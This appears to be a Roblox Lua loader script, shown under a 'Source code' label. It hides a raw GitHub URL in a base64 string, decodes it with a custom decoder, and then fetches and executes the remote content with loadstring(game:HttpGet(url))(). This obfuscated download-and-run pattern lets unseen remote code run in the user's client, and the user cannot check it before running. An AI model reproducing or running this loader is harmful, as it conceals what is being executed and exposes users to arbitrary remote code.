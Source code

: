 local b="aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2Nvb2xraWR2aWV0bmFtL01haG9hdG9uZ2hvcC9yZWZzL2hlYWRzL21haW4vUkVBRE1FLm1k"
local alph="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
local function dec(s)
  s = s:gsub("[^%w%+%/=]","")
  return (s:gsub(".", function(c)
    if c=="=" then return "" end
    local i = alph:find(c)-1
    local out = ""
    for j=6,1,-1 do out = out .. ((i % 2^j >= 2^(j-1)) and "1" or "0") end
    return out
  end):gsub("%d%d%d?%d?%d?%d?%d?%d?", function(byte)
    if #byte ~= 8 then return "" end
    local n=0
    for i=1,8 do n = n*2 + (byte:sub(i,i) == "1" and 1 or 0) end
    return string.char(n)
  end))
end

local url = dec(b)
loadstring(game:HttpGet(url))()
